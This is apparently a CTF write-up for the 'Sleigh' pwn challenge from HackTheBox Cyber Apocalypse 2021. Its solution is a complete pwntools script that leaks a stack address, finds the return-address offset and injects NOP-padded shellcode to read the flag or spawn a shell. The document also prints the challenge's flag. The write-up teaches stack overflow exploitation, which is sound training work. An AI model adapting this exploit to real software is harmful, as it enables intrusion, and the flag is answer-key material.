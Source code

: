 ```yaml
---
name: Sleigh (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Sleigh (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Sleigh

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/deg0CQwwN-M/0.jpg)](https://youtu.be/deg0CQwwN-M?t=2843s "HTB Cyber Apocalypse CTF 2021: Sleigh")

## Challenge Description

> The Elves have messed up with Santa's sleigh! Without it, he will not be able to deliver any gifts!! Help him repair it and save the holidays!

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    p = process(exe)
    p.sendlineafter(b'>', b'1')  # Chase joker
    p.sendlineafter(b'>', payload)  # Cyclic pattern
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './sleigh'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(500))

# Start program
io = start()

# Get the stack address (where out navigation commands will go)
io.sendlineafter(b'>', b'1')
io.recvline()
stack_addr = int(re.search(r"(0x[\w\d]+)", io.recvlineS()).group(0), 16)
info("leaked stack_addr: %#x", stack_addr)

# Need to pop registers at the beginning to make room on stack
shellcode = asm(shellcraft.popad())
# Build shellcode (cat flag.txt or spawn shell)
shellcode += asm(shellcraft.cat('flag.txt'))
# shellcode += asm(shellcraft.sh())
# Pad shellcode with NOPs until we get to return address
padding = asm('nop') * (offset - len(shellcode))

# Build the payload
payload = flat([
    padding,
    shellcode,
    stack_addr
])

io.sendlineafter(b'>', payload)  # Chase joker

# Got Shell?
io.interactive()
```

Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`
